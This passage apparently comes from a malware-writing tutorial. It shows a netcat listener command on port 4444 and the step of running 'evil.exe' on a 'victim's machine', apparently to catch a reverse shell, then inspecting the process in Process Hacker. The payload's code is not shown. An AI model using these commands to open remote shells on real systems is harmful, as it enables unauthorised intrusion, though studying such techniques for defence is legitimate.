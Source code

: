 prepare listener:   

```bash
nc -lvp 4444
```

and run from victim's machine:
```cmd
.\evil.exe
```

![run evil.exe](./images/6/2021-09-18_20-39.png){width="75%"}

As you can see, everything is ok.

For investigating `evil.exe` we will use [Process Hacker](https://processhacker.sourceforge.io/downloads.php). Process Hacker is an open-source tool that will allow you to see what processes are running on a device, identify programs that are eating up CPU resources and identify network connections that are associated with a process. 

![process hacker evil.exe](./images/6/2021-09-18_23-52.png){width="75%"}
